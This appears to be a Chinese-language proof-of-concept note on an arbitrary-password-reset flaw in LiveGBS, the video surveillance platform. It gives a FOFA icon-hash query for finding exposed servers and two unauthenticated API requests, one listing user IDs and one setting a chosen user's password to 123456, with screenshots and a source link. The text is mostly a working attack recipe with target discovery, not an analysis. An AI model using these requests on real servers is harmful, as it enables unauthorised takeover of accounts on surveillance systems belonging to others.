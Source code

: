 # LiveGBS任意用户密码重置漏洞

LiveGBS部分接口存在未授权访问导致，可以通过组合漏洞修改任意用户密码

## fofa

```yaml
icon_hash="-206100324"
```

## poc

### 获取用户id

```
/api/v1/user/list?q=&start=&limit=10&enable=&sort=CreatedAt&order=desc
```

![image-20240820155005009](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202408201550568.png)

### 通过id更改用户密码

```
/api/v1/user/resetpassword?id=22&password=123456
```

![image-20240820155041297](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202408201550695.png)



## 漏洞来源

- https://mp.weixin.qq.com/s/6To5_MA83i7rEfrxlqNpAQ